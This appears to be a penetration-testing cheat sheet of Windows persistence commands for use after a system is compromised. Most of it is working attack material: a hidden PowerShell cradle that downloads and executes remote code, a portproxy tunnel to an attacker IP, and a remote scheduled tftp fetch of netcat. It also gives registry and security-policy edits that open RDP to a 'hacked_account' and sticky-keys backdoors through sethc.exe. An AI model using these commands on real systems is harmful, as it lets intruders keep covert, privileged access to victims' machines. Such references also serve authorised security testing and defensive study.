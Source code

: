 <!-- Code for collapse and expand -->
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:



    <pre>c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"

</pre>





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`





### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed